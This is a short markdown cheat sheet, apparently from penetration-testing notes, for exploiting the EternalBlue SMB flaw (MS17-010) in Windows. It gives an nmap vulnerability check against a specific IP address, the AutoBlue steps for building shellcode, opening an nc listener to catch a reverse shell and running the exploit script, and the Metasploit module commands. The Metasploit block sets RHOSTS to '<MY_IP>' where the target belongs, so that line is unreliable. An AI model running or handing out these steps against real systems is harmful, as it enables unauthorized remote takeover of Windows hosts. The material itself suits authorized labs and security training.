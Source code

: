 An exploit using SMB
Used on:
- Windows Vista
- Windows 7
- Windows Server 2008
- Windows 8.1
- Windows Server 2012
- Windows 10
- Windows Server 2016
# Check vuln
To check if an host is vulnerable, you can use the nmap command:

```bash
$> nmap -sV -O -p 445 --script=smb-vuln-ms17-010 192.43.212.3
```
# Exploit
## Manual
To exploit the vuln you can use the autoblue tool
https://github.com/3ndG4me/AutoBlue-MS17-010
### Generate shellcode
```bash
~/EternalBlue/AutoBlue-MS17-010 $> cd shellcode
~/EternalBlue/AutoBlue-MS17-010/shellcode $> chmod 777 shell_prep.sh
~/EternalBlue/AutoBlue-MS17-010/shellcode $> ./shell_prep.sh
```
### Setting up listener
```bash
$> nc -nvlp 1234
```
### Start exploiting
```bash
~/EternalBlue/AutoBlue-MS17-010 $> chmod 777 eternalblue_exploit7.py
~/EternalBlue/AutoBlue-MS17-010 $> python3 eternalblue_exploit7.py <TARGET_IP> shellcode/sc_<x64|x86>.bin
```
## Metasploit
Use the `exploit/windows/smb/ms17_010_eternalblue` module 
```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 > set RHOSTS <MY_IP>
msf6 > run
```